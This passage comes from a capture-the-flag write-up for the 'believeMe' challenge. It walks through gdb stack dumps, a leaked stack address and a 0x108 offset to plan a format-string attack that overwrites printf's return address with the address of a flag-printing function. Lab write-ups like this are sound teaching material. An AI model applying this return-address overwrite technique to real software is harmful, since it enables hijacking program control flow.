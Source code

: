```console
	0xf7ffc000 0xf7ffd000     0x1000    0x26000 /lib32/ld-2.27.so
	0xf7ffd000 0xf7ffe000     0x1000    0x27000 /lib32/ld-2.27.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb)
```

We can see that the stack is between 0xfffdd000-0xffffe000, and that we have two leaked values which fit in that range: 0xffffd560 and 0xffffd3e4 (note that we are running locally and therefore the leaked values are different).
Another observation is that the value of 0xffffd3e4 is in fact stored in `main`'s local variable `var_3C` that we've seen earlier. 

Let's restart, break on the call to `printf` and try to locate the address on the stack storing the return address to `main`.

```
(gdb) b *0x080487D3
Breakpoint 2 at 0x80487d3
(gdb) set disassembly-flavor intel
(gdb) display/i $pc
(gdb) r < input.txt
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /media/sf_CTFs/noxale/believe/believeMe < input.txt
Someone told me that pwning makes noxāle...
But......... how ???? 

Breakpoint 4, 0x080487d3 in main ()
1: x/i $pc
=> 0x80487d3 <main+124>:	call   0x80484b0 <printf@plt>
(gdb) si
0x080484b0 in printf@plt ()
1: x/i $pc
=> 0x80484b0 <printf@plt>:	jmp    DWORD PTR ds:0x804a00c
(gdb) x /20xw $esp
0xffffd2dc:	0x080487d8	0xffffd304	0x0804890c	0xf7fb95c0
0xffffd2ec:	0x3969e200	0x00000009	0xffffd560	0xf7e13b09
0xffffd2fc:	0xffffd3e4	0xf7fb9000	0x41414141	0x252e7825
0xffffd30c:	0x78252e78	0x2e78252e	0x252e7825	0x78252e78
0xffffd31c:	0x2e78252e	0x252e7825	0x78252e78	0xff00252e
(gdb) 
```

So right after stepping into the call to `printf`, the return address to `main` (0x080487d8) is pushed on to the stack at address 0xffffd2dc.
The value of `var_3C` was 0xffffd3e4, and the difference is 0xffffd3e4 - 0xffffd2dc = 0x108.
Therefore, the plan is to:
- Run once, note the value of `var_3C`
- Subtract 0x108 from that value, and get the address storing the return value from `printf` to `main`
- Run again, override the return address (0x080487d8) with the address of `noxFlag` (0x0804867B)
- When returning from `printf`, the flow will continue to `noxflag` and print the flag

